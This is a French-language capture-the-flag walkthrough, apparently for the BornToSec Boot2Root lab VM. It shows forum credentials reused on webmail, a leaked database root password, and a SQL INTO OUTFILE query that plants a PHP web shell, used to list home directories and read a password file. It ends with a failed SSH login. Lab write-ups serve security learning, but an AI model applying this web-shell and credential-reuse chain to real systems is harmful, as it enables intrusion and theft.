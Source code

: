 on test avec tout les utilisateur visible dans user et BINGO !

```
user: lmezard
password: !q\]Ej?*5K5cy*AJ
```
en cliquant sur son profile on tombe sur son email donc on decide de tester le mail 
et le meme mot de passe sur https://192.168.1.151/webmail/src/login.php
```
laurie@borntosec.net
!q\]Ej?*5K5cy*AJ
```

On y voit un mail "DB access" avec le message 
```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

On utilise :

user: root
password: Fg-'kKXBj87E:aJ$

Et on accede a la DB et on injecte une page vulnerable a l'injection de commande pour pouvoir nous balader et decouvrire de potentiel info
```sql
SELECT "<?php system($_GET['cmd']) ?>" into outfile "/var/www/forum/templates_c/backdoor.php"
```

https://192.168.1.151/forum/templates_c/backdoor.php?cmd=ls+/home
https://192.168.1.151/forum/templates_c/backdoor.php?cmd=ls+/home/LOOKATME
https://192.168.1.151/forum/templates_c/backdoor.php?cmd=cat+/home/LOOKATME/password

on recupere
```
lmezard:G!@M6f4Eatau{sF"
```
on essaye de se connecter en ssh
```bash
(venv) ➜  ~ ssh lmezard@192.168.1.151
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
lmezard@192.168.1.151's password:
Permission denied, please try again.
lmezard@192.168.1.151's password:
```
mais sans succes on decide donc de tester en ftp

